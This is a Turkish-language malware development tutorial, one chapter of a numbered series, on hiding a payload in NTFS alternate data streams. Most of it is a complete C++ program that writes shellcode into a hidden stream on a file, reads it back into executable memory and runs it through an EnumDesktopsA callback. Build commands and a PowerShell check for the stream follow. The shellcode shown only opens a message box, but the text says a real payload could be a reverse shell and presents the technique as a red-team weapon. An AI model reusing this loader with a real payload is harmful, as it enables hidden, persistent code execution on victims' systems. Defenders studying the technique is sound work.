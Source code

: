 \newpage
\subsection{46. zararlı yazılım geliştirme tekniği. payload’u alternatif veri akışlarında (ADS) saklama. Basit C++ örneği.}

﷽

![hack](./images/105/2023-07-27_04-58.png){width="80%"}      

Bugün, bu yazı alternatif veri akışlarında (ADS) zararlı verileri saklama ve saldırganların bunu kalıcılık için nasıl kullandığına dair yaptığım araştırmanın bir sonucudur.     

### alternatif veri akışları (ADS)

Alternatif Veri Akışları, tek bir dosya adına birden fazla veri "akışının" bağlanmasına izin verir ve bu özellik, meta verileri saklamak için kullanılabilir. Bu özellik başlangıçta *Macintosh Hierarchical File System (HFS)* için tasarlanmış olup, ikonlar ve diğer dosya bilgilerini saklamak amacıyla kaynak çatalı (resource fork) kullanımını destekler. Ancak, veri ve zararlı kod gizlemek amacıyla da kullanılabilir ve kullanılmaktadır.     

### pratik örnek

Aşağıda, payload’u ADS içinde saklamaya dair basit bir örnek kod bulunmaktadır (`hack.c`):     

```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, 
  CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, 
  OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Mantık oldukça basittir. Bu kod, verileri bir ADS içine yazar ve ardından tekrar okur. Daha sonra payload verisini [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) işlevi aracılığıyla yürütür.    

Her zamanki gibi, basitlik adına `meow-meow` mesaj kutusunu kullandım:    

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

Bu kod, belirtilen dosya üzerinde `hiddenstream` adlı bir ADS oluşturur ve payload verimizi içine yazar. Daha sonra veriyi geri okur ve doğruluğunu kontrol etmek için ekrana yazdırır.Gerçek dünyada, bu veri ters bağlantı (reverse shell) gibi kötü amaçlı bir çalıştırılabilir dosya veya başka bir shellcodeolabilir. Bu durumda, verinin geçici bir konuma çıkarılması ve ayrı bir şekilde çalıştırılması gerekir.     

### demo

Haydi, bu mantığı çalışırken görelim.     

Derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![hack](./images/105/2023-07-27_04-59.png){width="80%"}      

Ardından, test kurban dosyamız `meow.txt` dosyasını `C:\temp\` dizinine taşıyalım:     

![hack](./images/105/2023-07-27_23-22.png){width="80%"}      

En son olarak şunu çalıştıralım:      

```powershell
.\hack.exe
```

![hack](./images/105/2023-07-27_23-21.png){width="80%"}      

Alternatif veri akışlarını kontrol etmek için şu komutu kullanabiliriz:      

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

![hack](./images/105/2023-07-27_23-24_1.png){width="80%"}      

![hack](./images/105/2023-07-27_23-24.png){width="80%"}      

Gördüğünüz gibi, her şey beklendiği gibi çalıştı! =^..^=    

Alternate Data Streams (ADS) özelliğinin yalnızca `NTFS`'ye özgü olduğunu unutmayın, `FAT32`, `exFAT`, `ext4` (Linux tarafından kullanılan) gibi diğer dosya sistemleri bu özelliği desteklemez.     

Bu kod yürütme yöntemi genellikle [APT29](https://attack.mitre.org/groups/G0016) ve [APT32](https://attack.mitre.org/groups/G0050) tarafından, [PowerDuke](https://attack.mitre.org/software/S0139) gibi yazılımlar tarafından kullanılır.    

Umarım bu gönderi, mavi takım üyelerinin bu ilginç zararlı yazılım geliştirme tekniği hakkında farkındalık kazanmasına yardımcı olur ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.      

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)      
[APT29](https://attack.mitre.org/groups/G0016)     
[APT32](https://attack.mitre.org/groups/G0050)     
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)     
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)      
[PowerDuke](https://attack.mitre.org/software/S0139)      
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)           
